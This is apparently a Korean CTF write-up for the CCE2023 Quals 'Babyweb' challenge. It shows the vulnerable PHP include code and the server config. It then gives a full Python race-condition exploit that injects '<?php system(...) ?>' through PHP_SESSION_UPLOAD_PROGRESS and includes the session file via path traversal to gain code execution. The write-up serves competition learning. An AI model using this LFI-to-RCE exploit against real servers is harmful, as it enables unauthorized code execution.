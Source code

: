 ```yaml
---
layout: post
date: 2023-06-11
title: CCE2023 Quals Babyweb write-up
tags: [LFI2RCE, webhacking, ]
categories: [CTF, CCE2023, ]
---
```


### 취약점 분석


먼저 제공된 파일 중 `index.php`을 보면 GET 파라미터로 넘어온 값을 include 한다는 것을 알 수 있다.


```php
<?php
    $page = $_GET['page'];
    if(isset($page)){
        include("./data/".$page);
    } else {
        header("Location: /?page=1");
    }
?>

```


이를 통해 LFI 취약점을 트리거 할 수 있는데, php 내용을 어디에 쓸 수 있을 지가 고민이었다.


`www.conf`의 내용을 보면 `session.upload_progress.enabled`가 1로 설정되어 있으므로, `PHP_SESSION_UPLOAD_PROGRESS`를 통해 php 코드를 업로드 할 수 있다.


```text
[www]
user = www-data
group = www-data
listen = /run/php/php7.4-fpm.sock
listen.owner = www-data
listen.group = www-data
pm = dynamic
pm.max_children = 48
pm.start_servers = 16
pm.min_spare_servers = 8
pm.max_spare_servers = 16
php_admin_value[session.upload_progress.enabled] = 1
php_admin_value[memory_limit] = 32M
php_admin_value[max_execution_time] = 10s
php_admin_value[opcache.enable] = 0
request_terminate_timeout = 15s

```


`session.upload_progress.enabled`옵션은 php 내부에서 업로드 중인 개별 파일의 진행률을 추적하기 위해 사용된다.
해당 옵션이 켜져있으면 `session_start` 함수 없이도 세션 파일을 생성할 수 있으므로 세션 파일을 통해 RCE를 진행할 수 있다.


다만, 해당 문제에서는 `session.upload_progress.cleanup` 옵션이 활성화 되어 있으므로 세션 파일이 바로 삭제된다. 하지만 크기가 큰 파일을 보내고, Race Condition을 통하면 세션 파일을 읽을 수 있다.


### 익스플로잇


```python
import requests
import threading

SERVER = False
url = '<http://localhost:8080>' if not SERVER else "<http://20.196.197.149:8000>"


def read_session():
    while True:
        res = requests.get(
            url + "/?page=../../../../../../../../../../var/lib/php/sessions/sess_lourcode")
        if len(res.text) != 0:
            print(res.text)

def write_session():
    while True:
        res = requests.post(url, files={'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag") ?>'), 'file': ('lourcode', 'lourcode' * 0x300, 'application/octet-stream', {
                            'Expires': '0'})}, cookies={'PHPSESSID': 'lourcode'})



read = threading.Thread(target=read_session)
read.start()

write = threading.Thread(target=write_session)
write.start()
```


![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/7408dda1-cd86-4a3d-ba15-65d01621923b/1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20230625%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20230625T053630Z&X-Amz-Expires=3600&X-Amz-Signature=5eea7ad80f5831ac6acca321ae71ede42d8d7076db8698ed08111a81364f5f0b&X-Amz-SignedHeaders=host&x-id=GetObject)


플래그를 획득하였다.


### Reference


[https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress](https://book.hacktricks.xyz/pentesting-web/file-inclusion/via-php_session_upload_progress)

